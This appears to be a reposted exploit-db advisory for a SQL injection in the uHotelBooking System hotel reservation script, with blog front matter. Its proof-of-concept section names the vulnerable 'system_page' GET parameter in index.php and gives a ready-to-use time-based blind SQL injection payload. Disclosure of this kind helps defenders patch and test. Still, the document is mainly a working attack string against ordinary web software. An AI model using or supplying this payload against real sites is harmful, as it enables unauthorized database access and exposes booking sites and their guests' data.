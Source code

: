 ```yaml
---
layout:     post
title:      "uHotelBooking System - 'system_page' SQL Injection"
date:       2019-03-21 12:34
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: uHotelBooking System - 'system_page' SQL Injection
# Date: 21.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://www.hotel-booking-script.com
# Demo Site: https://www.hotel-booking-script.com/demo/
# Version: Lastest
# Tested on: Kali Linux
# CVE: N/A
# Description: uHotelBooking is a powerful hotel management and online
booking/reservation site script.

----- PoC: SQLi -----

Request: http://localhost/[PATH]/index.php
Vulnerable Parameter: system_page (GET)
Attack Pattern:
http://locahost/[PATH]/index.php?page=3&system_page=0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z
